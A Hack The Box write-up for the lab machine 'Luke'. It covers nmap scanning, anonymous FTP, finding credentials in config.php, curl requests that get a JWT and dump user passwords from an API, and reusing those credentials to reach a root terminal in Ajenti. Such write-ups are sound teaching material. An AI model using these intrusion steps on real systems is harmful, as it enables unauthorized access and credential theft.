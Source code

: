 +++
author = "Nick"
categories = ["ssh", "dirb", "enumeration", "curl", "JSON", "ajani", "terminal", "plugins"]
date = 2019-09-14T13:52:03Z
description = ""
draft = false
thumbnail = "/images/2019/07/infocard-1.png"
slug = "hack-the-box-luke"
summary = "Back with a quick write-up on the box Luke from HtB"
tags = ["ssh", "dirb", "enumeration", "curl", "JSON", "ajani", "terminal", "plugins"]
title = "Hack The Box - Luke"

+++


Back with a quick write up on the box Luke from HtB. Let me preface this with, for whatever reason, I had a hard time with this, until I realized I forgot part of my enumeration steps. Derp, well, off we go!

As usual we start it off with a standard nmap scan.

```
nmap -sC -sV -oA ./scan 10.10.10.137
```

We get back a fairly small listing of results.

```
Nmap scan report for 10.10.10.137
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.15.29
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp open  ssh?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.86 seconds
```

Well, lets see what port 21 has in store for us. We log in and we get a directory, as show above, called webapp. We change to the dir and see that there's one file here. We download it and cat it:

![](/images/2019/07/image-26.png)

Well, interesting, we pop over to port 80 on the box and we have content there. However, nmap didn't show the port available. Let's rerun our nmap with all ports.

```
nmap -p 1-65535 10.10.10.137
```

This time we see a bit of a different response. I've found that newer boxes on HTB tend to be very unstable, we'll chalk this one up to that.

![](/images/2019/07/image-28.png)

So the first thing we're going to do is head over to port 8000 and see what we have. We're greeted with a Ajenti login page. Lets try the basics and see if it lets us pass, the default of root / admin for the Ajenti install. No dice. We also see port 3000 running when we browse to it we see a JSON returned with 'Auth token is not supplied'.

![](/images/2019/07/image-27.png)

We see a few locations. It looks like the management is returning code 401, which means we need a password to get there. We'll also enumerate using Dirbuster, omitting directories, to see what files we come back with. Sure enough we find a config.php file. Inside we have some credentials!

![](/images/2019/07/image-31.png)

So we try them against the port 8000 login, nothing. We try them against management, nothing. We try them against /login.php, nothing. Well maybe we can use them to authenticate against the API on port 3000. To do this we can use Curl.

```
curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"root"}' http://10.10.10.137:3000/login
```
or
```
curl -H "Content-Type: application/json" -X POST -d'{"password":"Zk6heYCyv6ZE9Xcg", "username":"root"}' http://10.10.10.137:3000/login
```

Damn, that didn't work. However, our research on port 3000 shows that root isn't an acceptable (unless created otherwise) account. Admin is the account it normally uses. So in the above, we replace root with admin and we get a token back.

```
{"success":true,
"message":"Authentication successful!",
"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY3MjE5LCJleHAiOjE1NjM0NTM2MTl9.Jp9s0VKON-ZMEh_LLv8rOoV3ARET09MzMm1CLm0Lo4Q"}
```

Now we can use that token to authenticate and use other API endpoints. To test this we issue another curl to the root of the 3000 port and see what is returned, with some luck it will be an authentication acknowledgement.

```
curl -X GET 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY2Njk1LCJleHAiOjE1NjM0NTMwOTV9.zpdpGBmtcLxmP7tHjlrrTblztksZGQkuxV7wWlJgllw' http://10.10.10.137:3000
```
and we get back 
```
{"message":"Welcome admin ! "}
```

Awesome, now lets use this to enumerate! We our dirb shows that we have a /users enpoint, lets pull that data. We get an output of 4 users.

```
[{"ID":"1","name":"Admin","Role":"Superuser"},
{"ID":"2","name":"Derry","Role":"Web Admin"},
{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

In this case we will pull each user name to see what data is held.

```
curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY2Njk1LCJleHAiOjE1NjM0NTMwOTV9.zpdpGBmtcLxmP7tHjlrrTblztksZGQkuxV7wWlJgllw' http://10.10.10.137:3000/users/USERNAMEHERE

```

Sure enough data is held inside, as we expected.

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

Now that we have some passwords and usernames, we should try them against the many login pages we had before. None work on port 8000, lets head back to the /login.php on port 80. None of those worked there, lets try the /management. Looks like the credentials for Derry worked.

![](/images/2019/07/image-33.png)

We already know that what the login.php and config.php. Lets take a look at the config.json. When we load it we seem to have the Ajani config file which contains some goodies. The first thing we see is that Terminal plug is running a shell root. So we can probably use that to gain our flags. We also have the root username and password. This should be smooth sailing from here!

We load up port 8000 and log in with the credentials we've found. Once logged in we scope out the install and see what this is all about. At the bottom of the navigation pane we have the option for Terminal.

![](/images/2019/07/image-34.png)

Looks like we should take it for a spin. Once it's loaded head over to root and snag the flag.

![](/images/2019/07/image-35.png)

After that we head to /root/usr/home/derry to snag his user.txt.

![](/images/2019/07/image-36.png)

We are done! A quick and easy box. The hardest part for some might be learning how to use curl against the API. See you next time!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

